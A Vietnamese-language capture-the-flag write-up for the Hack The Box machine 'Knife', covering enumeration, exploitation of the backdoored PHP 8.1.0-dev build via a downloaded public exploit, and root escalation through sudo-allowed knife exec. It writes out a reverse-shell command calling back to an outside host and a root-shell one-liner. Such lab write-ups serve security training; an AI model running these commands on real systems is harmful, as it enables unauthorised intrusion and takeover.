








# Write-up Machine "Knife" - Easy - HTB

## Bước 1: Enumeration

Sử dụng nmap để quét, em có được thông tin máy nạn nhân mở 2 cổng là 22 cho SSH và 80 cho HTTP

Kiểm tra web service tại cổng 80, em có được thông tin phiên bản PHP là 8.1.0-dev, phiên bản này chứa lỗ hổng cho phép RCE: https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html

## Bước 2: Lấy user flag

Tiến hành tải payload tại link: https://packetstormsecurity.com/files/download/162749/php_8.1.0-dev.py.txt
`wget https://packetstormsecurity.com/files/download/162749/php_8.1.0-dev.py.txt -O exploit.py`. Sau khi tải xong, em tiến hành sử dụng payload để chạy dòng lệnh "id" xem payload có hoạt động không

Tiến hành cd vào thư mục của người dùng james, đọc file user.txt sẽ có được user flag

## Bước 3: Lấy system flag

Sử dụng lệnh `sudo -l` để xem user james có thể thực thi lệnh nào với quyền root mà ko cần mật khẩu, em có được user james có thể thực thi knife binary

Knife là một công cụ tự động bởi chef: https://docs.chef.io/workstation/knife/. `sudo knife` cho chúng ta xem các sub command của knife

Knife cũng cho phép thực thi lệnh bằng `exec`.

Trước tiên cần tạo reverse shell sử dụng payload ở bước 2: `python3 exploit.py -u http://10.10.10.242/ -c "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.38/4444 0>&1'"`. Sau khi đã có reverse shell thì sử dụng lệnh `sudo knife exec --exec "exec '/bin/sh -i' " ` để đạt được root shell.

